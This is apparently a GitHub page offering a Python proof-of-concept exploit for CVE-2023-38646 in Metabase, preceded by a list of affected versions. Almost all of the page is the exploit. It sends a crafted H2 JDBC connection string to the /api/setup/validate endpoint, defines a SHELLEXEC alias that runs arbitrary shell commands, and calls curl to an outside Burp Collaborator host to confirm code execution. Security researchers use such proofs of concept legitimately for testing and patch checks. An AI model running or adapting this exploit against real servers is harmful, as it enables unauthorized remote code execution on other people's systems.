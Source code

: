 
## CVE-2023-38646

## 影响版本
Metabase open source 0.46 < 0.46.6.1  
Metabase open source 0.45 < v0.45.4.1  
Metabase open source 0.44 < 0.44.7.1  
Metabase open source 0.43 < 0.43.7.2  
Metabase Enterprise 1.45 < 1.45.4.1  
Metabase Enterprise 1.46 < 1.46.6.1  
Metabase Enterprise 1.44 < 1.44.7.1  
Metabase Enterprise 1.43 < 1.43.7.2  

## python脚本
```
import requests
import argparse
from colorama import Fore, Style
Gcyan = Fore.YELLOW + Style.BRIGHT
Cyan = Fore.CYAN + Style.BRIGHT
STOP = Style.RESET_ALL
logo = '''
   _____   _____   ___ __ ___ ____   ____ ___   __ _ _   __ 
  / __\ \ / / __|_|_  )  \_  )__ /__|__ /( _ ) / /| | | / / 
 | (__ \ V /| _|___/ / () / / |_ \___|_ \/ _ \/ _ \_  _/ _ \\
  \___| \_/ |___| /___\__/___|___/  |___/\___/\___/ |_|\___/
                                                            
'''
print(Gcyan + logo + STOP)
print(Cyan + "The PoC Finder!!" + STOP + Gcyan + "   By: 0xRobiul\n" + STOP)


parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url", type=str, required=True, help="Target URL.")
parser.add_argument("-t", "--token", type=str, required=True, help="Setup-Token From /api/session/properties .")
parser.add_argument("-c", "--collabrator", type=str, required=True, help="Burp Collabrator Client.")
args = parser.parse_args()

url = args.url + "/api/setup/validate"
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "application/json", "Content-Type": "application/json", "Connection": "close"}
payload={"details": {"details": {"advanced-options": True, "classname": "org.h2.Driver", "subname": "mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd})\\;}$$\\;CALL SHELLEXEC('curl -d key=0xRobiul " + args.collabrator +"');", "subprotocol": "h2"}, "engine": "postgres", "name": "x"}, "token": args.token}
attk = requests.post(url, headers=headers, json=payload)

print(Cyan + "Done!! Check Burp Colabrator!!" + STOP)
```

https://github.com/0xrobiul/CVE-2023-38646
